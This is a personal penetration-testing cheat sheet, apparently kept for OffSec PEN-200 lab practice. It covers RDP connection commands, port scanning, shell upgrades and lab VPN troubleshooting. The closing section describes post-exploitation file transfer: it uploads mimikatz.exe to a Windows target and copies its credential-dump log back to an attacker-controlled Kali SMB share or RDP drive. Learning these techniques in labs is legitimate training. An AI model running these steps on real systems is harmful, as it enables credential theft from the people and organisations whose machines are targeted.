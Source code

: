 Keep the script for future references 

1. Get new ip address
```
kali - dhclient

windows - ipconfig /renew
```

2. To kill busy listening port 
```
sudo lsof -i :<Port number> #list pid 
ps aux | grep smb

kill -9 <pid>
```

3. Remote connection 
```

xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS

sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS

rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS

 xfreerdp /u:USERNAME /p:PASSWORD /cert:ignore /v:IP_ADDRESS /w:2600 /h:1400

xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:IP_ADDRESS /u:USERNAME /p:PASSWORD /size:1180x708

rdesktop -z -P -x m -u USERNAME -p PASSWORD
```

4. Delete full directory. 
```
rm -r .wine/
```

5. Dependencies packages error solution
```
https://linuxsimply.com/linux-basics/package-management/dependencies/the-following-packages-have-unmet-dependencies/
```

6. File transfer cheatsheet
```
https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
```

7. Hacktricks if running out of ideas. 
```
https://book.hacktricks.xyz/
```

8. Rustscan instead of nmap
```
1. Scan open ports. 
rustscan -a 192.168.187.122 --ulimit 5000

2. Nano and paste open ports - open-ports.txt

3. List down open ports in one line with comma. 
cat open-ports.txt | cut -f1 -d '/' | tr '\n' ','

4. Or straight can scan with nmap
nmap -p$(cat open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A $ip 

5. Decrease mtu rate if needed 
ifconfig tun0 mtu 1250

```

9. Allocating IP. 
```
export ip=10.10.10.10
echo $ip
```

10. Alternative for gobuster 
```
feroxbuster -u http://$ip/
```

11. Upgrade shells to full tty
```
https://0xffsec.com/handbook/shells/full-tty/

SHELL=/bin/bash script -q /dev/null

python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo && fg

For windows:
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

12. Machine not working
```
Can you try to do the following to resolve your issue

disconnect from your VPN and run the command "sudo killall -w openvpn"
logout from your Portal and clear your browsers data and cache
please also run the commands below

sudo bash -c " echo nameserver 8.8.8.8 > /etc/resolv.conf"
sudo bash -c " echo nameserver 8.8.4.4 >> /etc/resolv.conf"
sudo chattr +i /etc/resolv.conf

download a new VPN pack (make sure that you are on your Course Page and not on the Main Page) and make sure to delete all the old VPN's

Once done, please try to reconnect to your VPN and see how it goes.
```


1) SMB: On Kali:

`impacket-smbserver test . -smb2support  -username kourosh -password kourosh`

On Windows:

`net use m: \\Kali_IP\test /user:kourosh kourosh copy mimikatz.log m:\`

2) RDP mounting shared folder:

- Using xfreerdp:

On Kali:

`xfreerdp /cert-ignore /compression /auto-reconnect /u: offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen- 200`

On windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`


- Using rdesktop:

On Kali:

`rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200`

On Windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`

3) Impacket tools: psexec and wmiexec are shipped with built in feature for file transfer. **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path. Uploading mimikatz.exe to the target machine:

`C:\Windows\system32> lput mimikatz.exe [*] Uploading mimikatz.exe to ADMIN$\/ C:\Windows\system32> cd C:\windows C:\Windows> dir /b mimikatz.exe mimikatz.exe`

Downloading mimikatz.log:

`C:\Windows> lget mimikatz.log [*] Downloading ADMIN$\mimikatz.log`